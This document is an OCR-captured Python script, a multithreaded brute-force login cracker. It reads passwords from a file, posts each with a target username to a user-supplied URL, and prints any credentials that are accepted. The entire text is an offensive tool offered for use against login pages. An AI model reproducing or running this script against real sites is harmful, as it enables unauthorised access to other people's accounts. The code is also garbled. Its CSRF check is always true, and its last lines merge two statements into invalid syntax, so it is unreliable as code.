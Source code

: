 print (""" BRUTE FORCE""")
import threading
import requests
import time
import sys

class BruteForceCracker:
    def __init__(self, url, username, error_message):
        self.url = url
        self.username = username
        self.error_message = error_message
        
        for run in banner:
            sys.stdout.write(run)
            sys.stdout.flush()
            time.sleep(0.02)

    def crack(self, password):
        data_dict = {"LogInID": self.username, "Password": password, "Log In": "submit"}
        response = requests.post(self.url, data=data_dict)
        if self.error_message in str(response.content):
            return False
        elif "CSRF" or "csrf" in str(response.content):
            print("CSRF Token Detected!! BruteF0rce Not Working This Website.")
            sys.exit()
        else:
            print("Username: ---> " + self.username)
            print("Password: ---> " + password)
            return True

def crack_passwords(passwords, cracker):
    count = 0
    for password in passwords:
        count += 1
        password = password.strip()
        print("Trying Password: {} Time For => {}".format(count, password))
        if cracker.crack(password):
            return

def main():
    url = input("Enter Target Url: ")
    username = input("Enter Target Username: ")
    error = input("Enter Wrong Password Error Message: ")
    cracker = BruteForceCracker(url, username, error)
    
    with open("passwords.txt", "r") as f:
        chunk_size = 1000
        while True:
            passwords = f.readlines(chunk_size)
            if not passwords:
                break
            t = threading.Thread(target=crack_passwords, args=(passwords, cracker))
            t.start()

if __name__ == '__main__':
    banner = """CHECKING SERVER!!!"""  print(banner)
    main()

